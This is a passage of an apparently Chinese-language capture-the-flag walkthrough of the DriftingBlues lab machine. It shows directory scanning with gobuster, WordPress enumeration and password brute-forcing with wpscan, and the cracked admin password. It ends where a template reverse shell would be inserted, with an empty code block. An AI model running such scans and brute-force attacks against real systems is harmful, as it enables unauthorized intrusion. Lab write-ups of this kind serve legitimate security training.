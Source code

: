 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

好家伙全是图片，做个目录扫描吧

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.7.183 -x php,html,txt,zip
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

扫描到blog目录，访问看看

```
http://192.168.7.183/blog
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

访问后是wordpress程序，看链接需要绑定域名

```
sudo vi /etc/hosts
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

绑定后刷新页面恢复正常，我们用wpscan找一下漏洞

```
wpscan --url http://driftingblues.box/blog --api-token 你的api-token -e
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

没有漏洞，只找到1个用户名，看来又要暴破密码了

### wpscna密码暴破  

```
wpscan --url http://driftingblues.box/blog --usernames albert --passwords /usr/share/wordlists/rockyou.txt -t 10 --api-token 你的api-token
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到albert用户的密码scotland1登录后台

```
http://driftingblues.box/blog/wp-admin
```

登录后我们利用模板插入反弹shell代码

```
```